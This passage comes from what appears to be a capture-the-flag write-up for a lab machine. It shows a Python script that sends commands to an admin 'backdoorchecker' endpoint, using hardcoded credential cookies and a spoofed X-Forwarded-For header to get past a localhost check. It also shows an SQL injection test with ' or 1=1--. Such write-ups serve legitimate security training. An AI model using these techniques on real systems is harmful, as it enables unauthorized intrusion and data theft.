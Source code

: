 **NOTE:** Information about the `X-Forwarded-For` HTTP header (https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For):

> The **`X-Forwarded-For`** (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load  balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the `X-Forwarded-For` request header is used.

```python
import sys
import requests

if len(sys.argv) != 2:
  print(f'usage: python3 {sys.argv[0]} "cmd"')
  exit(1)

headers = {
  'Cookie': 'id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D',
  'X-Forwarded-For': '::1',
}

data = {
  'cmd': sys.argv[1]
}

url = 'http://10.10.10.154/admin/backdoorchecker.php'
r = requests.post(url, data=data, headers=headers)
print(r.content.decode())
```

However, when running this, the following output is given:

```
It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.
```

This looks like a dead end for now... The Search Users form looks vulnerable to SQL injection. A test with `' or 1=1--` shows the following error:

- SQL injection payload reference: https://github.com/payloadbox/sql-injection-payload-list

![sql_error](./bankrobber/sql_error.png)

Yep, definitely vulnerable. Looking at the HTML source code for `/admin`, the following HTML form is shown for the user search:

![source2](./bankrobber/source2.png)
